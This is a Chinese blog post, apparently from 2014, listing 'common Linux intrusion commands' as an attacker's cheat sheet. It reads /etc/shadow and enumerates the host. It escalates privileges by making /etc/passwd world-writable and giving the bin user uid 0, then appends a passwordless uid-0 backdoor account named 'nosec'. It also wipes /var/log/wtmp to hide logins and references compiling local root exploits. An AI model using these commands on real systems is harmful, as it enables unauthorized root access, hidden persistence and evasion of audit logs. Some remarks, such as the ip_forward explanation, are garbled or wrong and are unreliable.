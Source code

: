 ```yaml
--- 
layout: post 
title: linux入侵常用命令 
date:'2014-01-09T13:10:00.001+08:00' 
author: Wenh Q
tags:
modified\_time: '2014-01-09T13:10:53.611+08:00' 
blogger\_id: tag:blogger.com,1999:blog-4961947611491238191.post-4749376341673506728
blogger\_orig\_url: http://binaryware.blogspot.com/2014/01/linux\_8419.html
---
```

在linux系统的学习使用中我们遇到很多命令，今天我们就学习一些常用[入侵](http://www.chinabyte.com/keyword/%E5%85%A5%E4%BE%B5/)命令，下面我们就进入正题。



　　cat /etc/passwd 查看linux用户



　　cat /etc/shadow 查看用户密码需要root权限



　　cat /etc/sysconfig/network-scripts/ifcfg-ethn N代表网卡号
查看所在网卡的ip信息



　　ifconfig 查看本机ip信息



　　cat /etc/resolv.conf 查看DNS信息



　　bash -i 在反弹的shell中使用可以直观显示命令



　　bash prompt:
当你以普通限权用户身份进入的时候，一般你会有一个类似bash
$的prompt。当你以Root登陆时，你的prompt会变成



　　bash
#。



　　系统变量 : 试着echo "
$USER / 
$EUID"
系统应该会告诉你它认为你是什么用户。



　　echo 1&gt;/proc/sys/net/ipv4/if\_forward是不是你写错了,应该是echo
1&gt;/proc/sys/net/ipv4/ip\_forward,



　　vim /proc/sys/net/ipv4/ip\_forward
吧,默认是0,也就是内核不进行数据包过滤,改为1
,让内核对数据包进行filter处理!



　　netstat -an |grep LISTEN |grep :80 查看端口



　　service --status-all | grep running



　　service --status-all | grep http



　　查看运行服务



　　lsb\_release -a 查看系统版本



　　重启[ssh](http://www.chinabyte.com/keyword/SSH/)服务
：/usr/sbin/sshd stop



　　/usr/sbin/sshd start



　　ssd\_config文件里



　　PasswordAuthentication no,



　　将其改为



　　PasswordAuthentication yes



　　远程ssh才可登录



　　否则显示Access denied



　　其中Usepam
yes可能用来建立pam方式login，比如从其它linux主机ssh到服务端，如果关闭，则不能打开.



　　su的菜鸟用法



　　先chomod 777 /etc/passwd



　　然后修改bin用户的gid和uid为0



　　然后passwd设置bin的密码



　　然后cp /bin/bash /sbin/nologin



　　然后su的时候su - bin就可以到rootshell了。



　　这个原理就是当ssh不允许root用ssh终端登陆的时候，我们又不知道root密码，的一种很菜鸟的做法



　　还可以这样



　　sed -i s/bin:x:1:1/bin:x:0:1/g /etc/passwd



　　gcc prtcl2.c –o local –static –Wall



　　echo "nosec:x:0:0::/:/bin/sh" &gt;&gt; /etc/passwd



　　echo "nosec::-1:-1:-1:-1:-1:-1:500" &gt;&gt; /etc/shadow



　　清空last记录 cp /dev/null /var/log/wtmp



　　-----



　　dd if=/dev/zero of=yourfile bs=10M count=10
建立一个100m的大文件在利用Linux Kernel &lt;= 2.6.17.4 (proc) Local Root
Exploit提权的时候要用到的


